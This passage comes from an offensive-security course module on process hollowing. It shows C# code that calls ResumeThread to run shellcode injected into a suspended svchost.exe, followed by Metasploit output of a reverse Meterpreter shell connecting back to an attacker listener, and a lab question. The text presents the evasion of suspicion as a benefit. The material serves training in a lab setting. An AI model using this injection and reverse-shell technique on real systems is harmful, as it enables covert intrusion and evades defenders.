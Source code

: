 > Listing 46 - ResumeThread function prototype

When _CreateProcessW_ started **svchost.exe** and populated the PROCESS\_INFORMATION structure, it also copied the handle of the main thread into it. We can then import _ResumeThread_ and call it directly.

```
[DllImport("kernel32.dll", SetLastError = true)]
private static extern uint ResumeThread(IntPtr hThread);
...

ResumeThread(pi.hThread);
```

> Listing 47 - Importing and calling ResumeThread

We now have all the pieces to create a suspended process, hollow out its original code, replace it with our shellcode, and subsequently execute it.

Once we have combined all the code, we must remember to specify a 64-bit architecture (since **svchost.exe** is a 64-bit process) and change it from "debug" to "release" before compiling.

When we execute it, the compiled code results in a reverse Meterpreter shell executing inside a **svchost.exe** process, possibly evading suspicion since it is a trusted process that also engages in network communications. Excellent!

```
msf5 exploit(multi/handler) > exploit

[*] Started HTTPS reverse handler on https://192.168.119.120:443
[*] https://192.168.119.120:443 handling request from 192.168.120.11; (UUID: pm1qmw8u) Staging x64 payload (207449 bytes) ...
[*] Meterpreter session 1 opened (192.168.119.120:443 -> 192.168.120.11:49678)

meterpreter > 
```

> Listing 48 - Getting a reverse shell

While the code and technique here only writes shellcode into the suspended process, we could also use this technique to [hollow](https://github.com/m0n0ph1/Process-Hollowing) an entire compiled EXE.

### Resources

Some of the labs require you to start the target machine(s) below.

Please note that the IP addresses assigned to your target machines may not match those referenced in the Module text and video.

| Process Injection - Client01 - VM #5 |   |   |
| ------------------------------------ | - | - |

**Labs**

1. Perform the process hollowing technique shown in this section. What is the parent process of the hollowed **svchost.exe** process?

Answer
